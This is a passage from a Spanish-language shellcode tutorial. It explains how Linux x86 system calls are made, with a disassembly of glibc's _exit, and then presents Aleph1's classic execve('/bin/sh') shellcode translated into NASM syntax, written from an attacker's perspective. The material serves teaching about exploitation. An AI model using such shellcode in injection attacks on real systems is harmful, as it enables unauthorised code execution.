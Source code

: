 Todo este rollo lo he hecho para demostrar cómo funciona en último término una compilación, al menos para las llamadas al sistema.  
Este código se encuentra en sintaxis gas, muy similar a la sintaxis AT&T. Podemos ver claramente que se mueve primero a EBX el argumento de tipo entero «status», y después, si existe la syscall exit\_group() ―una syscall más moderna que exit(), que termina no solo el thread actual sino que todo el grupo de threads―, mueve a EAX el número de syscall correspondiente (obtenido mediante el archivo /usr/include/asm/unistd.h), para terminar ejecutando una macro ENTER\_KERNEL, definida al final como `int 0x80`. Esta comprobación se hace en tiempo de compilación, es de hecho una directiva de preprocesador, es decir, se comprueba incluso antes de iniciar la traducción a asm, sin embargo es posible que la syscall sí se defina en el sistema en el que se compila el programa, pero que llegue el momento en que ese mismo binario se ejecute en un sistema que, por el motivo que sea, no soporte dicha llamada, en este caso, el sistema devolverá ENOSYS («Function not implemented») y proseguirá la ejecución del programa. Para evitar esto se añade incondicionalmente la llamada a exit(), la antigua llamada que debe estar soportada por todo el mundo. En cualquier caso, si el sistema no se entera, siempre se termina mediante `hlt` para asegurar un no retorno.  
Podemos verificar este resultado mediante un objdump sobre la librería ya compilada:  

    $ objdump -d /usr/lib32/libc.so.6
    [...]
    000c0485 <_exit>:
       c0485:       8b 5c 24 04             mov    ebx,DWORD PTR [esp+0x4] # El argumento status
       c0489:       b8 fc 00 00 00          mov    eax,0xfc                # __NR_exit_group
       c048e:       65 ff 15 10 00 00 00    call   DWORD PTR gs:0x10       # ENTER_KERNEL = int 0x80
       c0495:       b8 01 00 00 00          mov    eax,0x1                 # __NR_exit
       c049a:       cd 80                   int    0x80                    # syscall
       c049c:       f4                      hlt

A nosotros como atacantes nos interesan más llamadas como execve() (crear un proceso), write() (escribir, aunque primero es necesario obtener un fd mediante open()), rename() o kill().

Espero que el lector sea capaz de ver la amplia gama de posibilidades que tiene una vez consigue la posibilidad de inyectar código arbitrario. Si bien yo me quedaré en spawnear una shell local o inversa, el lector puede explayarse por todos los tipos de shellcodes posibles.

Empecemos a desarrollar nuestro shellcode. La parte fundamental del shellcode es la llamada a execve(), que se debe efectuar además de la siguiente forma:  

    char* arg[2] = {"/bin/sh", NULL};
    execve(arg[0], arg, NULL);

A la hora de hacer el código en asm nos surge una duda, y es cómo referenciar a la cadena «/bin/sh». Echando la mirada atrás vemos el [shellcode de Aleph1](http://phrack.org/issues/49/14.html) (ya mencionado en episodios anteriores)  
\[Me he tomado la molestia de traducirlo a sintaxis intel para que sea ensamblable con nasm\]  

    BITS 32
    global _start
    _start:
        jmp short a
        b:
        pop esi
        mov [esi+0x8],esi
        mov byte [esi+0x7],0x0
        mov dword [esi+0xc],0x0
        mov eax,0xb
        mov ebx,esi
        lea ecx,[esi+0x8]
        lea edx,[esi+0xc]
        int 0x80
        a:
        call b
    db "/bin/sh"
